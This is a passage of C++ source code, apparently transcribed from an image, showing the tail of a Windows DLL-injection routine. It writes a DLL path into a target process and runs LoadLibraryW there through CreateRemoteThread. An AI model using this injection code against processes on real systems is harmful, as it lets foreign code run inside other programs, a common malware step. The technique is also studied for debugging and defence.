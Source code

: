 ```cpp
		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}
```
